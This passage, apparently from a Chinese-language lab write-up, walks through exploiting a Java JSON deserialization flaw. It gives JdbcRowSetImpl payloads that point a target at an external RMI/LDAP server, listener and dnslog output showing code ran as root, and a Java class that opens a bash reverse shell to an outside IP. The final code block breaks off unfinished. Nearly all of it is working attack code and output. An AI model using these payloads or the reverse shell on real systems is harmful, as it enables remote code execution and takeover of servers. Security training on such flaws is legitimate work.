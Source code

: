 
开启监听。向靶场服务器发送Payload，带上RMI的地址：
```javascript
POST数据：
{
    "b":{

        "@type":"com.sun.rowset.JdbcRowSetImpl",

        "dataSourceName":"rmi://47.52.233.92:9999/dnslog",

        "autoCommit":true
    }
}
----
{
    "name":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },

    "x":{

        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://47.52.233.92:9999/expUseful",
        "autoCommit":true
    }
}
```
发送完毕后检查RMI服务器的监听记录：
```bash
* Opening JRMP listener on 9999
Have connection from /61.133.171.114:11430
Reading message...
Is RMI.lookup call for dnslog 2
Sending remote classloading stub targeting https://www.chihou.pro/dnslog.class
Closing connection
```
受害机器已经访问了我们的服务器，最后检查是否执行dnslog命令；

```bash
user.root.c08aqu.dnslog.cn  61.132.161.12   2020-08-14 15:43:30
user.root.c08aqu.dnslog.cn  61.132.161.5    2020-08-14 15:43:30
user.root.c08aqu.dnslog.cn  61.132.161.12   2020-08-14 15:43:30
user.root.c08aqu.dnslog.cn  61.132.161.5    2020-08-14 15:43:30
```
可见，`ping`命令已成功执行;

#### 反弹shell
同样的，直接在poc代码里修改反弹shell的代码即可。
```bash
import java.lang.Runtime;
import java.lang.Process;

public class nc {
    static {
    
        try{
        Runtime rt = Runtime.getRuntime();
        String[] commands = {"/bin/bash","-c","bash -i >& /dev/tcp/47.52.233.92/12341 0>& 1"};
        Process pc = rt.exec(commands);
        pc.waitFor();
        }catch (Exception e) {
        //no
        }
    
```